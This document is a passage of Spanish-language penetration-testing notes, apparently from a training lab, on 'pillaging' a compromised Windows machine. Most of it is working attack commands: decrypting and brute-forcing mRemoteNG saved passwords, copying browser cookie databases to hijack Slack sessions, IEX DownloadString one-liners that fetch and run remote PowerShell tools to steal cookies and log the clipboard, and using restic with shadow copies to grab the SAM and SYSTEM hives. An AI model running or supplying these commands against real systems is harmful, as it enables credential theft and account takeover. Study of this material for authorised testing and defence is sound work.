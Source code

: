 # Pillaging (Saqueo de información)

El **pillaging** es el proceso de extraer información valiosa de un sistema comprometido. Esta información puede ser credenciales, datos personales, configuraciones de red, copias de seguridad, historiales o cualquier dato útil para moverse lateralmente o escalar privilegios en un pentest.

## Fuentes de datos comunes
- Aplicaciones y servicios instalados  
- Sitios web, bases de datos y Active Directory  
- Servidores de archivos, backup, monitoreo y mensajería  
- Historiales de usuario, documentos sensibles y configuraciones (web.config, etc.)  
- Navegadores (cookies, tokens)  
- Roles, privilegios y auditorías previas  

---

## Identificación de aplicaciones instaladas

### Comando para listar aplicaciones en directorios típicos
```cmd
C:\> dir "C:\Program Files"
```

### Usar PowerShell para obtener apps desde el registro
```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |
  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* |
  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

---

## mRemoteNG: Robo de credenciales

mRemoteNG almacena conexiones en `confCons.xml` en `%USERPROFILE%\AppData\Roaming\mRemoteNG`.

### Ubicar el archivo
```powershell
PS C:\htb> ls C:\Users\julio\AppData\Roaming\mRemoteNG
```

### Descifrar contraseñas con master password por defecto (`mR3m`)
```bash
python3 mremoteng_decrypt.py -s "<cadena_encriptada>"
```

### Descifrar usando una master password personalizada
```bash
python3 mremoteng_decrypt.py -s "<cadena_encriptada>" -p admin
```

### Fuerza bruta con diccionario
```bash
for password in $(cat /usr/share/wordlists/fasttrack.txt); do
  python3 mremoteng_decrypt.py -s "<cadena_encriptada>" -p $password 2>/dev/null
done
```

---

## Cookies de IM Clients (Slack)

Las cookies pueden permitir **suplantar sesiones** de usuarios en aplicaciones como Slack.

### Extracción desde Firefox
1. Localizar base de datos de cookies:
	nota: podemos buscar con `dir cookies.sqlite /b /s`
```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```
2. Extraer cookie:
```bash
python3 cookieextractor.py --dbpath "./cookies.sqlite" --host slack --cookie d
```
3. Usar la cookie con extensiones como **Cookie-Editor** para iniciar sesión.

---

### Extracción desde navegadores Chromium (Chrome, Edge)

Cookies en `Cookies` están cifradas con DPAPI. Se usa **SharpChromium** para obtenerlas.

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"
```

NOTA: Para buscar el archivo: `dir Cookies /b /s` si quieres buscar en todo el sistema ejecuta ese comando desde C:\
Si el archivo está en otra ruta:
```powershell
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

---

## Monitoreo del Portapapeles (Clipboard)

Capturar contenido copiado (credenciales, tokens):

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger
```

---

## Abuso de Servidores de Backup (Ejemplo: restic)

Permite crear y restaurar copias de seguridad para extraer archivos sensibles (SAM, SYSTEM, etc.).

### Inicializar repositorio
```powershell
mkdir E:\restic2
restic.exe -r E:\restic2 init
```

### Realizar backup
```powershell
$env:RESTIC_PASSWORD = 'Password'
restic.exe -r E:\restic2\ backup C:\SampleFolder
```

### Backup con Shadow Copy (VSS)
```powershell
restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot
```

### Listar snapshots
```powershell
restic.exe -r E:\restic2\ snapshots
```

### Restaurar backup
```powershell
restic.exe -r E:\restic2\ restore <ID> --target C:\Restore
```
